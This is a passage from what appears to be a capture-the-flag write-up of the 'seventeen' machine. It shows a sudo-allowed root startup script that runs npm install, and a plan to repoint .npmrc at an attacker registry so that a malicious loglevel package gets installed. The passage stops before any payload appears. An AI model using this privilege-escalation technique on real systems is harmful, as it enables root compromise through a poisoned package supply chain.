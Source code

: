 Let’s switch user:

```bash
su kavi
```

We are now kavi. Executing sudo -l, we find:

```bash
User kavi may run the following commands on seventeen:
    (ALL) /opt/app/startup.sh

```

```bash
kavi@seventeen:/home/mark/node_modules/db-logger$ cat /opt/app/startup.sh 
#!/bin/bash

cd /opt/app

deps=('db-logger' 'loglevel')

for dep in ${deps[@]}; do
    /bin/echo "[=] Checking for $dep"
    o=$(/usr/bin/npm -l ls|/bin/grep $dep)

    if [[ "$o" != *"$dep"* ]]; then
        /bin/echo "[+] Installing $dep"
        /usr/bin/npm install $dep --silent
        /bin/chown root:root node_modules -R
    else
        /bin/echo "[+] $dep already installed"

    fi
done

/bin/echo "[+] Starting the app"

/usr/bin/node /opt/app/index.js
kavi@seventeen:/home/mark/node_modules/db-logger$ ls -l /opt/app/startup.sh
-rwxr-xr-x 1 root root 465 May 29  2022 /opt/app/startup.sh

```

We also find out that even though npm is used to download the modules, it does not specify a private registry. That’s because it is specified in the .npmrc:

```bash
registry=http://127.0.0.1:4873/
```

We can try pointing the registry to our attack box, and install a malicious version of loglevel. This trick only works as we are on VERSION="18.04.6 LTS (Bionic Beaver)", as prior to 19.10,  sudo preserves the environment variable by default, so our user kavi’s environment variable will be used.

Edited .npmrc:
